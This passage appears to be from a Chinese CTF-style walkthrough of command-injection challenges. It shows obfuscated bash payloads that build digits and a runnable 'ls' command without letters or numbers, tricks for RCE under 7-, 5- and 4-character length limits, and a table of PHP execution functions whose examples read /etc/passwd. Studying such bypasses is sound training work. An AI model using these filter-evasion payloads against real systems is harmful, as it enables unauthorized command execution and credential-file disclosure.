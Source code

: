 在不使用`$((2#binary))`特性的情况下，我们还可以通过多个-1的叠加再取反去构造任意数字，于是就有了：

```
oct_list = [  # 构造数字 0-7 以便于后续八进制形式的构造
    '$(())',  # 0
    '$((~$(($((~$(())))$((~$(())))))))',  # 1
    '$((~$(($((~$(())))$((~$(())))$((~$(())))))))',  # 2
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 3
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 4
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 5
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 6
    '$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))',  # 7
]
```

不过由于sh不支持一些特性 —— 如 `${!?}`

所以仅能通过定义一个`__=$(())`的方式将`__`变量的值设置为0，然后通过`${!__}`的形式拿到`sh`字符。两条命令间通过`&&`进行连接。至于为什么是两个下划线，是因为bash的变量命名规范是以下划线或者英文字母开头，可以包含下划线和英文字母数字。

所以对于 ls 命令：

```
__=$(())&&${!__}<<<${!__}\<\<\<\$\'\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\\$((~$(($((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))))))\'
```

### Level 14 - 16

#### Level 14 - 长度限制_7字符RCE

```bash
>a    #虽然没有输入但是会创建a这个文件
ls -t    #ls基于基于事件排序（从晚到早）
sh a    #sh会把a里面的每行内容当作命令来执行
使用\进行命令拼接    #l\s    =    ls
base64    #使用base64编码避免特殊字符
```

#### Level 15 - 长度限制_5字符RCE

idea from ：[【HITCON 2017 - babyfirst-revenge】](https://github.com/orangetw/My-CTF-Web-Challenges#babyfirst-revenge)

#### Level 16 - 长度限制_4字符RCE

idea from ：[【HITCON 2017 - BabyFirst-Revenge-v2】](https://github.com/orangetw/My-CTF-Web-Challenges?tab=readme-ov-file#babyfirst-revenge-v2)

### Level 17 : 命令执行 - PHP命令执行函数 

| 函数                                                         | 说明                                                         | 示例代码                                                     |
| ------------------------------------------------------------ | ------------------------------------------------------------ | ------------------------------------------------------------ |
| [`system()`](https://www.php.net/manual/zh/function.system.php) | `system()` 函数用于在系统权限允许的情况下执行系统命令（Windows 和 Linux 系统均可执行）。 | `system('cat /etc/passwd');`                                 |
| [`exec()`](https://www.php.net/manual/zh/function.exec.php)  | `exec()` 函数可以执行系统命令，但不会直接输出结果，而是将结果保存到数组中。 | `exec('cat /etc/passwd', $result); print_r($result);`        |
| [`shell_exec()`](https://www.php.net/manual/zh/function.shell-exec.php) | `shell_exec()` 函数执行系统命令，但返回一个字符串类型的变量来存储系统命令的执行结果。 | `echo shell_exec('cat /etc/passwd');`                        |
| [`passthru()`](https://www.php.net/manual/zh/function.passthru.php) | `passthru()` 函数执行系统命令并将执行结果输出到页面中，支持二进制数据。 | `passthru('cat /etc/passwd');`                               |
| [`popen()`](https://www.php.net/manual/zh/function.popen.php) | `popen()` 函数执行系统命令，但返回一个资源类型的变量，需要配合 `fread()` 函数读取结果。 | `$result = popen('cat /etc/passwd', 'r'); echo fread($result, 100);` |
| [反引号 \`\`](https://www.php.net/manual/zh/language.operators.execution.php) | 反引号用于执行系统命令，返回一个字符串类型的变量来存储命令的执行结果。**注意：关闭了 [shell_exec()](https://www.php.net/manual/zh/function.shell-exec.php) 时反引号运算符是无效的** | `` echo `cat /etc/passwd` ``                                     |
